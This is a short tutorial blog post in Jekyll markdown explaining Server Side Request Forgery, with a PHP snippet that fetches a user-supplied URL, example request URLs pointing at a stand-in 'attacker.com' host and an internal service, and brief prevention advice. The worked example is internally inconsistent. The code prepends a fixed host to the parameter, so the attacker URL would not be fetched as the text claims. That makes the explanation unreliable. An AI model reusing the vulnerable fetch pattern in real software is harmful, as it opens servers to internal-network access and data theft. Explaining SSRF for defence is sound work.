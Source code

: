 ```yaml
---
title: Server Side Request Forgery (SSRF)
author: xransum
date: 2023-04-23 13:34:00 -0500
categories:
  - Web Security
tags:
  - hacking
  - exploits
  - learning
image:
  path: /commons/beard-10.jpg
  lqip: null
  alt: null
---
```


## Introduction

This article is a part of the **Web Exploitation** series. You can check the other articles in the series below.

- [Web Exploitation]({{ base.url | prepend: site.url }}/web-exploitation)

Now, let's get started!

## What is Server Side Request Forgery (SSRF)?

Server Side Request Forgery (SSRF) is a web application vulnerability that allows an attacker to make requests to other systems or services that the vulnerable application has access to. This can be used to perform attacks on internal systems or retrieve sensitive information.

SSRF attacks occur when an application processes a user-supplied URL and makes a request to that URL. An attacker can manipulate the URL to make the application send requests to other systems or services that are accessible to the application.

## Example of an SSRF Attack

An example of an SSRF attack involves a web application that allows users to upload profile pictures that are stored on a separate server. The application uses the following code to retrieve the user's profile picture:

```php
<?php
   $url = 'https://profilepictures.com/' . $_GET['picture_id'];
   $data = file_get_contents($url);
   echo '<img src="' . $url . '">';
?>
```

An attacker could exploit an SSRF vulnerability by providing a malicious URL as the `picture_id` parameter, such as:

```
https://profilepictures.com/?picture_id=https://attacker.com/malicious_script
```

When the application requests the user's profile picture using the URL provided in the `picture_id` parameter, it will make a request to `https://attacker.com/malicious_script`. The attacker can then use this request to launch further attacks on internal systems or retrieve sensitive information.

For example, the attacker could modify the URL to access an internal web service:

```
https://profilepictures.com/?picture_id=https://internal-service.local:8080
```

If the internal service is not properly secured, the attacker could potentially access sensitive data or carry out further attacks.

## Prevention Measures

SSRF attacks can be prevented by implementing proper input validation and sanitization, as well as restricting the access that the application has to other systems and services. Additionally, applications should be tested thoroughly for SSRF vulnerabilities, and any discovered vulnerabilities should be patched as soon as possible.